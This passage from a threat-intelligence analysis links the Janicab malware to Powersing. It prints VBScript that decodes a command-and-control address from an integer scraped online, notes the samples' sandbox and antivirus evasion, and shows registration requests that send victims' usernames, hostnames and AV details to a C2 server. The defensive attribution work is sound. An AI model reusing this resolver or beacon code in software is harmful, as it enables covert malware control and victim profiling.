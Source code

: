 The integer obtained on this page is then divided by a constant before being converted to an IP address:





Set objRE = New RegExp
With objRE
	.Pattern = "our (.*)th psy anniversary"
	.IgnoreCase = True
End With
Set objMatch = objRE.Execute( outputHTML )

If objMatch.Count = 1 Then
	server = ""
	server = objMatch.Item(0).Submatches(0)
	server = server / 31337  'NB: divide integer by an arbitrary constant
	'msgbox(server)
	server = IPConvert(server)
	server = "http://" & server & "/wp-admin-content"
End If




123456789101112131415

Set objRE = New RegExpWith objRE .Pattern = "our (.*)th psy anniversary" .IgnoreCase = TrueEnd WithSet objMatch = objRE.Execute( outputHTML ) If objMatch.Count = 1 Then server = "" server = objMatch.Item(0).Submatches(0) server = server / 31337  'NB: divide integer by an arbitrary constant	'msgbox(server) server = IPConvert(server) server = "http://" & server & "/wp-admin-content"End If




While the use of YouTube as a dead drop resolver alone wouldn’t be sufficient to establish a link between the two groups, we feel that the process of obtaining an integer somewhere online and dividing it before interpreting it as an IP address is unique enough to draw a first connection.
Janicab’s features also remind us of Powersing’s: the sample contains VM detection based on the MAC address of the machine, looks for malware analysis programs and has familiar antivirus software evasion routines. Janicab also periodically sends screenshot captures of the victim’s desktop to the C&C and appears to enable the execution of arbitrary Python scripts.
More recent versions of Janicab (85ed6ab8f60087e80ab3ff87c15b1174) also involve network traffic reminiscent of Powersing, especially when the malware registers with its C&C server:



Powersing registration request (POST data)
Janicab registration request


{
“un”: “[username]”,
“cn”: “[computer name]”,
“av”: “[installed AV program]”,
“dob”: “[OS installation date]”,
“os”: “[OS version]”,
“ou”: “[campaign identifier]”,
“dc”: “[version]”
}
GET /gid.php?action=add&cn=[computer name]&un=[username]&v=[version]&av=[installed AV program]&an=[campaign identifier]
